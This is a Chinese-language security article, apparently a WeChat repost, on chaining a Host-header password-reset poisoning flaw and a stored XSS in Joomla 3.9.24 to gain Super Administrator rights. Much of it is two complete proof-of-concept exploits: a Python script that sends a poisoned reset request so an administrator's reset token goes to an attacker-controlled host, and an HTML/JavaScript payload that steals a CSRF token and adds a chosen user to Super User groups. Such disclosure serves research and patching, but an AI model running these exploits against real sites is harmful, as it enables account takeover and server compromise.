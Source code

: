 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/VY63mYqtCKpZ0uIb8XjiOg)

![](https://mmbiz.qpic.cn/mmbiz_png/OhKLyqyFoP9mJwX65uY3o0wwuMo2eWPeFuDIhxJlAjMcIicKFSYLVZ6fjicY0dNle24gfmiaVpwCcP2PeZuZyaRzw/640?wx_fmt=png)点击上方蓝字关注我们

Joomla 是全球最受欢迎的开源 CMS 之一，安装量超过 150 万。安全研究人员发现 Joomla 3.9.24 中存在密码重置漏洞和存储型 XSS 漏洞。攻击者可以组合利用这两个漏洞，以实现对底层服务器的完全破坏。

Joomla 密码重置漏洞


-----------------

Joomla 中有两个有趣的用户角色，一个是 “管理员”，另一个是 “超级管理员”。显然，我们最终想要拿下的是 “超级管理员” 的帐号密码，但要达到这一目标还需要几个步骤。我们的目标之一是密码重置功能。

Joomla 开发人员完全删除了 “超级管理员” 的密码重置功能。但是，我们仍然可以为不是 “超级管理员” 的任何其他用户重置密码。因此，我们可以先以普通 “管理员” 为目标。首先使用 Burp 进行快速扫描，并没有发现任何东西。所以，我们开始进行代码审查。密码重置进程在 reset.php 模型中开始：

```
$link = 'index.php?option=com_users&view=reset&layout=confirm&token=' . $token;

// Put together the email template data.
$data = $user->getProperties();
$data['fromname'] = $config->get('fromname');
$data['mailfrom'] = $config->get('mailfrom');
$data['sitename'] = $config->get('sitename');
$data['link_text'] = JRoute::_($link, false, $mode);
$data['link_html'] = JRoute::_($link, true, $mode);
$data['token'] = $token;
```

我们需要深入挖掘并检查域名是如何被添加到重置链接的。以下是 URI.php 中的代码：

```
if (!empty($_SERVER['PHP_SELF']) && !empty($_SERVER['REQUEST_URI']))
{
  // To build the entire URI we need to prepend the protocol, and the http host
  // to the URI string.
   $theURI = 'http' . $https . $_SERVER['HTTP_HOST'] . $_SERVER['REQUEST_URI'];
}
```

可以发现密码重置链接是在 URI.php 中使用 HOST 头创建的，因此容易受到 HOST 头攻击。让我们用 Repeater 检测下是否真的存在 HOST 头攻击漏洞：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakbUMricFEgzAmoGbcaH9icRic8ReXJ6D9YRmjFSX9QIdJnmpJKXCo5DxygAfC6lN6vD7TMNZxCYNcuuA/640?wx_fmt=png)

几分钟后，我在收件箱中成功的收到了密码重置的电子邮件，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakbUMricFEgzAmoGbcaH9icRic8IDNSmK3XPVXFDKEAVuwMuhbsYzAGcrplBLiao46PLgKFpAicZjoicJJTA/640?wx_fmt=png)

如你所见主机是由攻击者控制的，受害者会被重定向到恶意服务器，该服务器将收集密码重置令牌并设置新密码。一旦毫无戒心的用户点击链接，你将可以获得管理员的重置令牌并重置他的密码。

**PoC 概念验证：**

```
#!/usr/bin/python

import requests
import sys
import re
import argparse
import random


def extract_csrf_token(resp):
  match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
  if match is None:
    print("[!] Cannot find CSRF token")
    return None
  return match.group(1)


def parse_options():
  parser = argparse.ArgumentParser(description='Jooma Admin Password Poisoning Exploit')
  parser.add_argument('-u','--url', help='Target joomla url')
  parser.add_argument('-e', '--email', default='Admin\'s email address')
  parser.add_argument('-p', '--poison', default='Poisoning host')
  return parser.parse_args()

def print_header():
  clear = "\x1b[0m"
  colors = [31, 32, 33, 34, 35, 36]

  logo = """                                                                                                                    
Joomla password reset poisoning - Fortbridge @2021
"""
  for line in logo.split("\n"):
    sys.stdout.write("\x1b[1;%dm%s%s\n" % (random.choice(colors), line, clear))
    #time.sleep(0.05)

def main(argv):  
  print_header()
  options = parse_options()
  sess = requests.Session()
  #Burp Suite Testing
  #proxy = {  "http"  : "http://127.0.0.1:8080", "https"  : "http://127.0.0.1:8080" } # 
  #proxy = {}
  print("[+] You've setup the token logger, right?")
  print("[+] Getting the CSRF token")
  resp = sess.get(options.url)#, proxies= proxy)  
  token = extract_csrf_token(resp)
  print("[+] Got CSRF token", token)
  print("[+] Sending poisoned password reset request")
  data = { "jform[email]": options.email,
    token: '1'
  }
  sess.headers["Host"]=options.poison

  #We need to bypass the CookieJar rules from the Session() module when we set the Host header explicitly
  #Shut up, python, I know what I'm doing.
  sess_value = list(sess.cookies.get_dict().values())[0];
  sess_key = list(sess.cookies.get_dict().keys())[0];
  sess.headers["Cookie"]= sess_key +'='+sess_value
  
  resp = sess.post(options.url + '/index.php?option=com_users&task=reset.request&Itemid=104', data=data)#, proxies= proxy )
  if "Your session has expired. Please log in again" in resp.text:
       print ("[+]Session expired, try again")
  elif 'An email has been sent to your email address' in resp.text:
         print('[+] Admin Reset Link poisoned, fingers crossed now!')     
  elif 'You have exceeded the maximum number of password resets allowed. Please try again in one hour' in resp.text:
         print('[+] You have exceeded the maximum number of password resets allowed. Please try again in one hour')
  else:
       print("Some other error occured")
  print("[+] Use exploit cve-2021-xxxx to escalate to SuperAdmin! ")
  #print(resp.text)

if __name__ == "__main__":
    if len(sys.argv) == 7:
      sys.exit(main(sys.argv))
    else:
      print("Usage: python3 "+sys.argv[0]+" -u target_url -e admin_email -p poison_host")
```

通过存储型 XSS 漏洞提升权限


--------------------

我们的最终目标是 “超级管理员”，因此下一步要做的是权限提升。新目标是上传媒体功能，我们使用了多种攻击手段来上传 php 文件，但并没有成功。通过检查，发现源代码中会对文件名、扩展名、文件内容等进行一些可靠的验证。

但在寻找可以滥用的功能时，我们发现 “管理员” 用户拥有禁用某些上传限制的权限。且 Joomla 开发人员使用了允许上传的硬编码扩展白名单。

开发人员并没有将.html 扩展名硬编码在黑名单中。因此，只要拥有普通管理员权限，我们就能够将 “.html” 添加到合法扩展名中，并禁用 “限制上传”，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakbUMricFEgzAmoGbcaH9icRic8f8V5gMNiaqoiaanjbzCaibuLmCia81XAicAcVo0vibNmzZ04qdWo3vCO3kicw/640?wx_fmt=png)

虽然我们尝试将 “php” 扩展名列入白名单的请求被完全忽略了，但我们已经成功将 “.html” 扩展名列入白名单。现在我们可以继续上传一个包含 XSS 有效载荷的 “html” 文件，该文件用于针对 “超级管理员” 用户。

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakbUMricFEgzAmoGbcaH9icRic8fEPVFse5iaGemfW4UuSibyepBWnZicG1wVTccoDRobCib9Qvc7sOJjpPmw/640?wx_fmt=png)

我们可以使用内部消息传递功能将 XSS 有效载荷传递给超级管理员，也可以将链接嵌入网站文章、评论当中。一旦受害者访问该链接，我们就能成功将权限提升为 “超级管理员”。

**PoC 概念验证：**

```
<html>
<body>
<script>
//CVE-2021-26032
var csrf_token="";
//The below 3 variables need to be set 
var user_id=467;            //the id of the user that gets the privileges
var root_dir="/Joomla/";    //the root directory of Joomla setup
var user;       //the username that gets the privileges
getTokenJS();
function getTokenJS() 
{
    var xhr = new XMLHttpRequest();
    xhr.open("GET", root_dir+"/administrator/index.php?option=com_users&view=users", true);
    xhr.onload = function (e) 
    {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) 
        {
            // Get the document from the response
            page = xhr.response
            regex=/\"csrf.token\":\".{32}\"/m;
            result = String(page).match(regex);
            window.csrf_token += String(result).substr(14,32);
            // Show the token
            console.log("The token is: " + window.csrf_token);
            document.write(result);
            //make req. to get privileges
            getSUPrivileges();
        }
    };
    // Make the request
    xhr.send(null);
}
function getSUPrivileges()
{
  console.log("csrf: "+window.csrf_token);
    value="jform%5bname%5d="+username+"&jform%5busername%5d="+username+"&jform%5bpassword%5d=&jform%5bpassword2%5d=&jform%5bemail%5d=admed@gmail.com&jform%5bregisterDate%5d=2021-02-19+07%3a05%3a29&jform%5blastvisitDate%5d=2021-02-25+11%3a15%3a44&jform%5blastResetTime%5d=&jform%5bresetCount%5d=0&jform%5bsendEmail%5d=0&jform%5bblock%5d=0&jform%5brequireReset%5d=0&jform%5bid%5d=467&jform%5bgroups%5d%5b%5d=7&jform%5bgroups%5d%5b%5d=2&jform%5bgroups%5d%5b%5d=4&jform%5bgroups%5d%5b%5d=8&jform%5bparams%5d%5badmin_style%5d=&jform%5bparams%5d%5badmin_language%5d=&jform%5bparams%5d%5blanguage%5d=&jform%5bparams%5d%5beditor%5d=&jform%5bparams%5d%5btimezone%5d=&task=user.apply&"+window.csrf_token+"=1"
    console.log(value);
    var xhr = new XMLHttpRequest();
    xhr.open("POST", root_dir+"/administrator/index.php?option=com_users&layout=edit&id="+user_id, true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.onreadystatechange = function() 
    {//Call a function when the state changes.
        if(xhr.readyState == 4 && xhr.status == 200) 
        {
            console.log("request done");
        }
    } 
    xhr.send(value);
}
</script>
</body>
</html>
```

![](https://mmbiz.qpic.cn/mmbiz_png/RQoDdorCu0V5znWFiaMBVWiaibdvAvmGeUvfC5LJ60x1Kq5wiaQ5UtMKEDcwQJ3ibicBdGBKxGs1V2AuZcg3ISoDto1g/640?wx_fmt=png)

  

END

  

![](https://mmbiz.qpic.cn/mmbiz_png/DQk5QiaQiciakarCFnYafgYGpNRiaX2oibtiawYX92ytrKp9MpmQeOqARcreRBybBX1fDbv2guZxExicn7f0wn2dkVwqw/640?wx_fmt=png)

好文！必须在看